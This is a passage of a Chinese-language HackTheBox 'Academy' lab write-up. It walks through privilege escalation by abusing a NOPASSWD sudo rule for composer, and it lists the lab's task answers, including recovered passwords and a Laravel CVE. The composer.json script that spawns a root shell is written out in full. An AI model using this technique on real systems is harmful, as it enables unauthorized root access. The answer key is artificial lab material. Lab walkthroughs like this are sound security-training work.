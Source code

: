
- 切換使用者為 mrb3n
![image](https://hackmd.io/_uploads/S1JOVIQygl.png)

## 5. Privilege Escalation 提權

- 發現 mrb3n可以調用sudo 可以利用 GTFOBins 的 composer 權限提權
![image](https://hackmd.io/_uploads/SymGVkLyge.png)

:::warning
mrb3n 使用者擁有以下 sudo 權限：
(ALL) NOPASSWD: /usr/bin/composer
composer 支援在 composer.json 檔案中設定 scripts，我們可以藉此觸發任意命令執行，達成提權。
:::

![image](https://hackmd.io/_uploads/BkwyVh7yll.png)
1. 在資料夾內撰寫 composer.json：
`TF=$(mktemp -d)`使用 mktemp -d 創建一個乾淨的目錄，避免污染當前目錄。
2. 在資料夾內撰寫 composer.json： 
`echo '{"scripts":{"pwn":"/bin/sh -i 0<&3 1>&3 2>&3"}}' > $TF/composer.json` :這邊用意是創建一個名為 pwn 的 script。指令 /bin/sh -i 0<&3 1>&3 2>&3 是為了讓輸入/輸出流回你自己的終端，成功開出互動式 root shell。
3. 執行 composer，觸發提權：
`sudo composer --working-dir=$TF run-script pwn`
--working-dir=$TF 告訴 composer 使用我們剛剛自定義的 composer.json。
run-script pwn 執行我們設定的惡意腳本。
**執行成功後，使用者將擁有 root 權限的 Shell。**

- 取得 flag
![image](https://hackmd.io/_uploads/rkbEN2mJlg.png)
![image](https://hackmd.io/_uploads/HyrEoLXkxe.png)

- Academy has been Pwned!
![image](https://hackmd.io/_uploads/H1pi_8mJll.png)


## 5. 總結＆Task
1. How many TCP ports are open on the remote host?
Ans: `3`
2. Which scripting language is the website using?
Ans: `php`
3. Which path on the webserver returns an admin login page?
Ans: `/admin.php`
4. Which HTTP POST request parameter on the register page is being used to control the user role?
Ans:`roleid`
5. On the "Admin Launch Planner", the issue regarding which subdomain is still pending to be fixed?
Ans:`dev-staging-01.academy.htb`
6. Which PHP framework is running on the above sub-domain?
`Laravel`
7. Which 2018 CVE is the above PHP framework version vulnerable to?
`CVE-2018-15133`
8. What is the password for the user cry0l1t3 on the remote host?
`mySup3rP4s5w0rd!!`
9. Submit the flag located in the cry0l1t3 user's home directory.
![image](https://hackmd.io/_uploads/H1n42U7Jge.png)
10. Which interesting group is the user cry0l1t3 a part of?
`adm`
11. What is the password for the user mrb3n on the remote host?
`mrb3n_Ac@d3my!`
12. Which command can be run by the user mrb3n as the user root?
`/usr/bin/composer`
13. Submit the flag located on the administrator's desktop.